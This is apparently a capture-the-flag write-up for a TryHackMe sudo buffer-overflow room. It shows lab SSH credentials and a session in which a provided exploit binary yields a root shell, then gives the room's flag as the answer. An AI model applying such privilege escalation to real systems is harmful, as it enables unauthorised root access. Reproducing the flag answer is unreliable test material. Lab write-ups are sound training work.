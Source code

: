 # Sudo Buffer Overflow | https://tryhackme.com/room/sudovulnsbof

### [Task 2] Buffer Overflow

ssh -p 4444 tryhackme@10.10.164.254 
Password : tryhackme 

```
ssh -p 4444 tryhackme@10.10.164.254
tryhackme@10.10.164.254's password: 
Last login: Thu Jun 18 03:30:09 2020 from 10.9.18.54
tryhackme@sudo-bof:~$ ls
exploit
tryhackme@sudo-bof:~$ ./exploit 
[sudo] password for tryhackme: 
Sorry, try again.
# 
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root),1000(tryhackme)
# cat /root/root.txt
THM{buff3r_0v3rfl0w_rul3s}
```

#2	What's the flag in /root/root.txt? : `THM{buff3r_0v3rfl0w_rul3s}`
